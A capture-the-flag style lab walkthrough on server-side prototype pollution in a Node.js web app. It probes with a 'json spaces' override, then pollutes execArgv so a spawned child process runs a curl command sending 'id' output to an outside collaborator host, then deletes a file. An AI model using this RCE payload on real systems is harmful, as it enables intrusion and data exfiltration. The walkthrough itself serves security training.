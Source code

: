 # Lab 8 - JSON Spaces

### Objective: Get RCE & Delete `/home/carlos/morale.txt`

In this lab, we already have escalated privileges, giving us access to admin functionality. We can log in to our account with the following credentials: `wiener:peter`

Inspect the request in Repeater

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Now, we will try the `json spaces` override technique. We will attempt to add the `__proto__` as an object that has the `json spaces` property. I this case I will be using `20`

```json
"__proto__":{
	"json spaces": 20
}
```

Send the request and check the Raw Response

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Great, it worked. Now in the 'Admin Panel' there is a button to Run maintenance jobs\


<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Checking the request it made on Burp reveals that its doing some system-level functions like DB and Filesystem cleanup. These are good candidates that spawn child processes that we can use to get RCE

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

What we can do from here first pollute the `execArgv` property in the `child_process` module and call execSync to our Burp Collaborator

```json
"__proto__":{
	"execArgv":[
		"--eval=require('child_process').execSync('curl https://xvwj31prbz2zljp52qbqjulgg7myapye.oastify.com -d $(id)')"
	]
}
```

In the command above, I use the `-d` flag to send data which is the bash command I want to execute, `id`

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Send the request and Run maintenance jobs to spawn another child process that executes our payload

Check the Collaborator tab for incoming polls

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And there it is, we received output from our payload. RCE successful! Now, just delete `/home/carlos/morale.txt` and we solved the lab!
